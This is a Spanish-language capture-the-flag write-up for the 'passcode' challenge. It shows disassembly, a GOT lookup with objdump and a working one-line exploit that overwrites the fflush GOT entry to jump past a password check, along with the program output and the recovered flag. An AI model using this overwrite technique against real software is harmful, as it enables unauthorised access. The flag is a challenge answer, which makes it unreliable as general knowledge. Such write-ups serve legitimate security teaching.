 # passcode

![passcode](https://github.com/user-attachments/assets/138a1353-14a6-4f81-a6d1-5619ea7f3394)

Queda entonces hacer que la direccion de passcode1 sea la entrada de `fflush` en la GOT y saltar a la direccion de memoria que queramos

```
...
   0x0804926b <+117>:	sub    esp,0xc
   0x0804926e <+120>:	lea    eax,[ebx-0x1fcf]
   0x08049274 <+126>:	push   eax
   0x08049275 <+127>:	call   0x8049090 <puts@plt>
   0x0804927a <+132>:	add    esp,0x10
   0x0804927d <+135>:	cmp    DWORD PTR [ebp-0x10],0x1e240
   0x08049284 <+142>:	jne    0x80492ce <login+216>
   0x08049286 <+144>:	cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x0804928d <+151>:	jne    0x80492ce <login+216> 
   0x0804928f <+153>:	sub    esp,0xc                              <--- Queremos saltar aqui. donde el if se cumple y se imprime la flag
```

Como `scanf` acepta solo entrada numerica para `passcode1` tenemos que convertir esta direccion a un decimal con `python3 -c 'print(0x0804928f)'`

Por alguna razon pwngdb estaba fallando y no pude ejecutar el programa, asi que obtuve la direccion de `fflush` en la GOT con objdump:
```
passcode@ubuntu:~$ objdump -R passcode | grep fflush
0804c014 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

##### Resultado final:
```
passcode@ubuntu:~$ python3 -c 'import sys;sys.stdout.buffer.write(b"A"*96+b"\x14\xc0\x04\x08"+b"134517391")'|./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
enter passcode1 : Login OK!
s0rry_mom_I_just_ign0red_c0mp1ler_w4rning
Now I can safely trust you that you have credential :)
```

`s0rry_mom_I_just_ign0red_c0mp1ler_w4rning`
